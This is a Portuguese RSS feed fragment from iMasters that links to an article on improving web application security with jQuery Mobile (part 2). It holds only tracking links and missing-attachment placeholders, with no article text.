[](http://res.feedsportal.com/viral/bookmark_pt.cfm?title=Melhore+a+seguran%C3%A7a+dos+aplicativos+web+com+o+jQuery+Mobile+-+Parte+02&amp;link=http%3A%2F%2Fimasters.com.br%2Fartigo%2F21883%2Fjquery%2Fmelhore-a-seguranca-dos-aplicativos-web-com-o-jquery-mobile-parte-02)

  
  
  
[[anexo ausente]](http://da.feedsportal.com/r/139262519837/u/49/f/546640/c/33212/s/21a9332a/a2.htm) [anexo ausente]  
  
[anexo ausente]  
  
  
  
from iMasters - <http://feedproxy.google.com/~r/imasters/~3/2ajlwgPRZyI/story01.htm>
